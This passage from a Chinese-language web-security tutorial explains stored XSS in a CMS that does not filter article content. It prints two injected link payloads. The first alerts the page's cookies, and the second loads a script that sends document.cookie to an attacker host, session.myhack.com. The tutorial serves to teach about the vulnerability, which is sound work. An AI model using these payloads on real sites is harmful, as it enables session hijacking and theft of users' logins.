 ```php
    end:
    echo (json_encode($result));
```

**代码2.1 添加文章的后台代码**
这里给出了一段不靠谱代码，之所以这么说是由于对于提交的内容没有做过滤，比如说`content`表单域的内容。现在假设有这么两个网站，一个你自己的CMS网站，域名`mycms.whyun.com`,一个黑客用的网站，域名`session.myhack.com`。**代码2.1**正是mycms网站的代码。  
登录mycms后在后台添加一篇文章，文章内容为：

    <a href=\"#\" onclick=\'javascript:alert(document.cookie);return false;\'>点击我，有惊喜！</a>

**代码2.2 alert cookie**
![loading-ag-247](images/show_cookie.jpg)

打开刚才生成的文章链接，然后点击`点击我，有惊喜！`,会显示当前域下的所有cookie。
![loading-ag-248](images/alert_cookie.jpg)
**图2.2 cookie被alert出来**

当然要想做到攻击的目的仅仅做这些是不够的，下面将这个链接的内容做的丰富多彩些。

    <a href=\"#\" onclick=\'javascript:var link = this; var head = document.getElementsByTagName(\"head\")[0]; var js = document.createElement(\"script\"); js.src = \"http://session.myhack.com/httphack.php?cook=\"+encodeURIComponent(document.cookie); js.onload = js.onreadystatechange = function(){ if (!this.readyState || this.readyState == \"loaded\" || this.readyState == \"complete\") {head.removeChild(js);  alert(\"over\"); } }; head.appendChild(js);return false;\'>点击我，有惊喜2！</a>
